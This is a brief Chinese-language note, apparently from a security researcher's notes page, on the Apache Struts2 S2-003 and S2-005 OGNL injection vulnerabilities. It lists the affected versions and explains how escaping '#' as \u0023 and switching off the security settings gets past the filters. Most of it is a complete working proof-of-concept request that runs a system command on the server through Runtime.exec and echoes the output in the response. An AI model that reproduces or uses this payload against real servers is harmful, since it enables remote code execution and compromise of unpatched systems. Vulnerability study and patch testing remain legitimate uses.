 ![图 1](1.png)

## s2-003 | s2-005

[参考](https://meizjm3i.github.io/2019/02/01/Struts2%E6%BC%8F%E6%B4%9E%E8%B0%83%E8%AF%95%E7%AC%94%E8%AE%B0-S2-003%E3%80%81S2-005/)

影响版本：2.0.0 - 2.1.8.1

请求的 GET 参数会通过 OGNL 表达式被解析为 Java 语句。在 s2-003 中可以使用 `\u0023` 来绕过对 `#` 的过滤，而在修复中开启的安全配置可以被 OGNL 表达式关闭，然后再利用 s2-003 的 payload 攻击。这就是 s2-005。

网上大部分 PoC 都是无回显的，这里放一个带回显的 PoC：

```java
/example/HelloWorld.action?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(bla)(bla)&('\u0023_memberAccess.allowStaticMethodAccess\u003dtrue')(bla)(bla)&('\u0023mycmd\u003d\'id\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))
```
